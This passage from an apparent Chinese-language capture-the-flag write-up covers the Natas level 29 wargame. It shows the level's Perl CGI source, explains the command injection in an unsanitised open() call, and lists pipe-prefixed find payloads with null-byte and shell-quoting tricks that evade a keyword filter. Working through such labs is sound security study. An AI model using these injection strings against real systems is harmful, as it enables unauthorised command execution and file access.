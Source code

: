 ```
#
print <<END;
H3y K1dZ,<br>
y0 rEm3mB3rz p3Rl rit3?<br>
\\\\/\\\\/4Nn4 g0 olD5kewL? R3aD Up!<br><br>
<form action="index.pl" method="GET">
<select >
  <option value="">s3lEcT suMp1n!</option>
  <option value="perl underground">perl underground</option>
  <option value="perl underground 2">perl underground 2</option>
  <option value="perl underground 3">perl underground 3</option>
  <option value="perl underground 4">perl underground 4</option>
  <option value="perl underground 5">perl underground 5</option>
</select>
</form>
END
if(param('file')){
    $f=param('file');
    if($f=~/natas/){
        print "meeeeeep!<br>";
    }
    else{
        open(FD, "$f.txt");
        print "<pre>";
        while (<FD>){
            print CGI::escapeHTML($\_);
        }
        print "</pre>";
    }
}
print <<END;
<div>c4n Y0 h4z s4uc3?</div>
</div>
</body>
</html>
END
```

从源码看到，关键的漏洞点就是`open(FD, "$f.txt");`，这里直接将外部输入的 file 参数和后缀名 ".txt" 拼接后直接放进 open() 函数中执行，导致了命令注入漏洞的存在。  

靶场的要求是获得下一关即第 30 关的密码，这里看源码发现检测 file 参数值是否存在 "natas"，因此需要结合一些 shell 技巧来绕过这个检测，可以输入如下一些命令绕过并搜索下一关的相关文件：

```
|find / -name nat''as30%00
|find / -name nat""as30%00
|find / -name nat\`\`as30%00
|find / -name nat\\as30%00
|find / -name nat?s30%00
|find / -name nat${x}as30%00
|find / -name nat$(echo a)s30%00
|find / -name nat\`echo a\`s30%00
|find / -name n${SHELLOPTS:2:1}t${SHELLOPTS:2:1}s30%00 # failed
```
